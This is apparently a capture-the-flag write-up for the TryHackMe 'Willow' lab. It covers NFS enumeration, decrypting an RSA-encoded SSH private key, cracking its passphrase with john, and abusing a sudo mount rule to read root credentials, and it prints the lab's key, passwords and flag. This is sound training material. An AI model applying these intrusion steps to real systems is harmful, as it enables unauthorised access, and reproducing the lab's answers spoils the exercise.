 # 31 - Willow (RSA calculator for SSH key)

Room Link --> [https://tryhackme.com/room/willow](https://tryhackme.com/room/willow)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -p- -T5 -sV -vv 10.10.243.176

# outputs
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
```
{% endcode %}

Opening the Webpage and we find a HEX encoded text, using cyberchef to decode it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
[..redacted..]
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### rpcbind enum \[111]

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap --script rpc-grind,rpcinfo 10.10.243.176 -p111

| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37980/udp6  mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      53265/tcp6  mountd
|   100005  1,2,3      58183/tcp   mountd
|   100021  1,3,4      44424/udp6  nlockmgr
|   100021  1,3,4      45652/udp   nlockmgr
|   100021  1,3,4      45701/tcp6  nlockmgr
|   100021  1,3,4      50990/tcp   nlockmgr
|   100024  1          49744/udp6  status
|   100024  1          52105/tcp   status
|   100024  1          55785/udp   status
|   100024  1          58486/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
{% endcode %}

#### NFS enum \[2049]

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ showmount -e 10.10.243.176      
Export list for 10.10.243.176:
/var/failsafe *

```
{% endcode %}

Mounting the NFS share.

{% code overflow="wrap" lineNumbers="true" %}
```bash
mount -t nfs 10.10.243.176:/var/failsafe /mnt/thm -o nolock

┌──(root㉿dking)-[/home/dking/Downloads]
└─# cd /mnt/thm && ls -al 
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root    4096 Oct 17 13:12 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

┌──(root㉿dking)-[/mnt/thm]
└─# cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)

# Looks like a clue.
```
{% endcode %}

Back to the Webserver :(

The hint said we should visit this blog --> [https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/)

At the bottom of the blog there was some code that seemed to make sense:

<figure><img src="https://miro.medium.com/v2/resize:fit:362/1*_aB1ouQQGvfU3QwUtw4QJQ.png" alt="" height="45" width="526"><figcaption></figcaption></figure>

This seemed to tie in perfectly with the information found in the NFS file:

`Public Key (e=23, n=37625)`&#x20;

`Private Key (d=61527, n=37627)`&#x20;

We use this **RSA Calculator** to decrypt the HEX values --> [https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------](https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------)

Just substitute the values in the appropiate box.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the key.

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

The hash is encrypted, we use `ssh2john` to crack the password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# output
wildflower       (id_rsa) 
```
{% endcode %}

We login via ssh.

`ssh -i id_rsa willow@10.10.243.176` -  and we are logged in.

`sudo -l` - and we can execute `/bin/mount /dev/*` with privileges.

Lets first see what is in /dev/:

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-5TMxRo9Fu-0brBgRygGTA.png" alt="" height="219" width="700"><figcaption></figcaption></figure>

There is an interesting directory /hidden\_backup. Let’s mount this, but first I will create a /dev/hidden\_backup directory in Willows /Home directory/ and then mount the /dev/hidden\_backup

_**`sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/`**_

We can now navigate to the /dev/hidden\_backup in our /home directory.

{% code overflow="wrap" %}
```bash
willow@willow-tree:~$ mkdir  dev
willow@willow-tree:~$ cd dev/
willow@willow-tree:~/dev$ mkdir hidden_backup
willow@willow-tree:~/dev$ cd ..
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/
willow@willow-tree:~$ ls /home/willow/dev/hidden_backup/
creds.txt
willow@willow-tree:~$ cat /home/willow/dev/hidden_backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```
{% endcode %}

And we got creds for root.

The user flag is in the "user.jpg" file.

Turns out the root flag was hidden inside the user.jpg file also, so we use the root password and steghide tool to get the root.txt.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ steghide extract -sf user.jpg   
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                 
┌──(dking㉿dking)-[~/Downloads]
└─$ cat root.txt   
THM{find_a_red_rose_on_the_grave}
```
{% endcode %}

Done !
